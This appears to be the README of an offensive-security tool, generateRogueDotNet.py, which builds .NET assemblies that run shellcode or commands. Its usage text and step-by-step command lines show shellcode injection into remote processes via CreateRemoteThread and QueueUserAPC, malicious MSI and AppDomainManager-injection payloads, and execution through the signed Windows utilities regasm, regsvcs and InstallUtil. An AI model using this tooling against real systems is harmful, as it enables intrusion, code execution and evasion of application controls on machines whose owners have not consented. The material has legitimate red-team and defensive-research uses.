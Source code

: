 ## Rogue .NET Assembly for Regsvcs/Regasm/InstallUtil Code Execution

This script produces C# code that can:

- run system command
- run shellcode in-process
- inject shellcode and execute with `CreateRemoteThread`
- inject shellcode and execute with `QueueUserAPC`
- run Powershell through a managed runspace
- a DLL that can be loaded with `regsvcs`, `regasm`, `installutil` LOLBINs

It **doesnt** incorporate any of the following:

- [D/Invoke](https://github.com/TheWover/DInvoke)
- [H/Invoke](https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d)
- Direct/Indirect syscalls

All Win32 APIs are imported with [P/Invoke](https://github.com/dotnet/pinvoke).

Produced .NET assemblies can also be used to:

- run .NET code from MSI context (use `-M` flag)
- run .NET code as part of injected [AppDomainManager](https://github.com/TheWover/GhostLoader) (use `-A` flag)


### Usage

Included in this directory script is a helper utility allowing one to quickly generate desired csharp source code file to be used for further `csc` compilation.

Usage:

```
    :: Rogue .NET Source Code Generation Utility ::


usage: .\generateRogueDotNet.py [options] <inputFile|cmdline>

positional arguments:
  inputFile             Input file to embedded into C# source code for --type regasm|plain. If --type exec was given, this parameter specifies command line to execute by the resulting assembly (environment variables will get expanded). May be either Powershell script, raw binary Shellcode or .NET Assembly (PE/EXE) file.

options:
  -h, --help            show this help message and exit
  -t {regasm,plain,exec,run-command}, --type {regasm,plain,exec,run-command}
                        Specifies type of payload to generate. "plain" - assembly with embedded shellcode/ps1/exe, "exec" - assembly that hardcodes supplied shell command in "inputFile|cmdline" parameter and then runs it, "run-command" exposes a method named --method which takes one string parameter being a command to run, "regasm" - produces
                        executable compatible with Regasm/Regsvcs/InstallUtil code execution primitives. Default: plain
  -c {default,x86,x64}, --compile {default,x86,x64}
                        Compile the source code using x86 or x64 csc.exe and generate output EXE/DLL file depending on --output extension. Default: default - CPU independent executable will be produced.
  -o PATH, --output PATH
                        Output path where to write produced assembly/C# code. Default: print resulting C# code to stdout
  -s NAME, --namespace NAME
                        Specifies custom C# module namespace for the generated Task (for needs of shellcode loaders such as DotNetToJScript or Donut). Default: ProgramNamespace.
  -n NAME, --module NAME
                        Specifies custom C# module name for the generated Task (for needs of shellcode loaders such as DotNetToJScript or Donut). Default: Program.
  -m NAME, --method NAME
                        Specifies method name that could be used by DotNetToJS and alike deserialization techniques to invoke our shellcode. Default: Foo
  -e, --exe             Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
  -r, --raw             (OBSOLETED) Specified input file is a raw Shellcode to be injected in self process in a separate Thread (VirtualAlloc + CreateThread)
  -M, --msi-mode        Compiled .NET assembly is to be used with MSI installer
  -A, --appdomainmanager-mode
                        Defines additional public sealed class inheriting from AppDomainManager with name: "MyAppDomainManager". Useful for side-loading .NET applications through the AppDomainManager Injection attack (google up: TheWover/GhostLoader)
  -C PARAMS, --extra-params PARAMS
                        Additional parameters to add to CSC compiler
  --dotnet-ver {v2,v4,2,4}
                        Use specific .NET version for compilation (with --compile given). Default: v2
  --queue-apc           If --raw was specified, generate C# code template with CreateProcess + WriteProcessMemory + QueueUserAPC process injection technique instead of default CreateThread.
  --target-process PATH
                        This option specifies target process path for remote process injection in --queue-apc technique. May use environment variables. May also contain command line for spawned process, example: --target-process "%windir%\system32\werfault.exe -l -u 1234"

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
USE CASES:

1) Generate .NET EXE assembly that injects shellcode into remote process and runs via QueueUserAPC:
    cmd> py generateRogueDotNet.py calc64.bin -o evil.exe --queue-apc

2) Generate .NET DLL assembly that executes shellcode inline/in-process
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll

3) Generate .NET v4 DLL assembly that executes shellcode in-process and will be used for building evil MSI:
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll --dotnet-ver v4 -M

4) Run Powershell through a managed runspace:
    cmd> py generateRogueDotNet.py evil.ps1 -o evil.exe --dotnet-ver v4

5) Generate .NET DLL assembly that runs shellcode and can be loaded with Regasm/Regsvcs/InstallUtil LOLBINs:
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll -t regasm

5) Generate .NET assembly that executes hardcoded system command (calc.exe):
    cmd> py generateRogueDotNet.py -o evil.dll -t exec calc.exe

6) Generate .NET v4 DLL assembly that executes shellcode in-process and will be used for AppDomainManager injection (aka TheWover/GhostLoader):
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll --dotnet-ver v4 -A

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```


### Regsvcs, Regasm or InstallUtil execution:

- x86:
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```

- x64:
```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```


